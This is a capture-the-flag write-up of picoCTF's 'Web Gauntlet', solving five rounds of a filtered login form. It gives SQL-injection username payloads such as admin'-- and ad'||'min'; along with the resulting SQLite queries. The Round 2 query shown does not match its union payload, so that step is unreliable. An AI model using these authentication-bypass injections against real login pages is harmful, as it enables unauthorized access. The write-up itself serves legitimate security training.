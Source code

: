 ```yaml
---

title: "Web Gauntlet"  
date: "2024-10-16"  
thumbnail: "/assets/img/thumbnail/Web_Gauntlet.png"

---
```


# Web Gauntlet

---

**Challenges Difficulty: Medium**  
**Category: Web Exploitation**

## Introduction  
This series focuses on the fundamentals of SQL Injection vulnerability. Check out [A03:2021-Injection](https://owasp.org/www-community/attacks/SQL_Injection).

## WALKTHROUGH  
This challenge is from the picoCTF 2020 Mini-Competition.

#### Hints:
1. You are not allowed to log in with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters, it may be hard to see the characters. Always (always) look at the raw hex in the response.
4. SQLite is used.
5. If your cookie keeps getting reset, try using a private browser window.

![Challenge 1](/assets/img/posts/post-2/chal.png)

The challenge gives us two links as shown above. The first one is a login page, and the second shows us what the round filters. \
## Round 1 
For the first round, it filters out **or**, so we can still use **--** to comment out the rest of the query.

---

**Username:** `admin'--`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'-- AND password='123'
```

---
## Round 2
Now we are in round 2, and it filters out the following: **or**, **like**, **=**, and **--**.  
We shall try to use an alternative method, like **union**, to continue.

---

**Username:** `admin'union select * from users where '1;`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---
## Round 3
In round 3, it filters **or**, **=**, **like**, **>**, **<**, and **--**. We can use **;** to end the query.
In SQL, the semicolon is a statement terminator, meaning it marks the end of a SQL statement. It tells the database engine that the statement is complete and ready to be executed

---

**Username:** `admin';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---
## Round 4
Round 4 is a little more creative as it filters out **or**, **=**, **like**, **>**, **<**, **--**, and **admin**.  
Admin?? 🙂 Don’t panic, no problem! 😅  
In SQL, the `||` operator is commonly used for string concatenation, especially in databases like SQLite. If the application’s underlying SQL query uses this operator correctly, entering `ad'||'min'` would result in the following behavior:

```sql
SELECT * FROM users WHERE username='admin';
```

And this is what we want.

---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---
## Round 5
We are in the final round—good job! ✌  
In the final round, it filters **and**, **=**, **like**, **>**, **<**, **--**, **union**, and **admin**, but we will use the same method as in the previous round.

---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

Congrats! You won! Check out `filter.php`.  
![solution](/assets/img/posts/post-2/sol.png)

Many thanks to [onealmond](https://github.com/onealmond) as his write-up helped me a lot in solving this challenge.

---